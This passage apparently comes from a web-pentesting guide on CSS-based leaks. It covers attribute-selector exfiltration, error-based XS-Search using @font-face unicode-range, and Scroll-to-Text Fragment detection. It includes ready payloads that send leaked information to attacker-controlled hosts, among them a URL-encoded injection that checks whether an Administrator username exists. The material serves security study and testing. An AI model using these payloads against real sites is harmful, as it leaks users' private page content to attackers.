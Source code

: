     ```css
    [role^="img"][aria-label="1"]:empty { background-image: url("YOUR_SERVER_URL?1"); }
    ```

### Error based XS-Search

**Reference:** [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Basically the main idea is to **use a custom font from an endpoint controlled by us** in a **text that will be showed only if the resource can not be loaded**.

```html
<!DOCTYPE html>
<html>
<head>
    <style>
    @font-face{
        font-family: poc; 
        src: url(http://ourenpoint.com/?leak); 
        unicode-range:U+0041;
    }

    #poc0{
        font-family: 'poc';
    }

    </style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```

### Styling Scroll-to-Text Fragment

When a **URL fragment targets an element**, the [**`:target`**](https://drafts.csswg.org/selectors-4/#the-target-pseudo) pseudo-class **can be used** to select it, but **`::target-text` does not match anything**. It only matches text that is itself targeted by the \[fragment].

Therefore, an attacker could use the **Scroll-to-text** fragment and if **something is found** with that text we can **load a resource** from the attackers server to indicate it:

```
:target::before { content : url(target.png) }
```

An example of this attack could be:

```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```
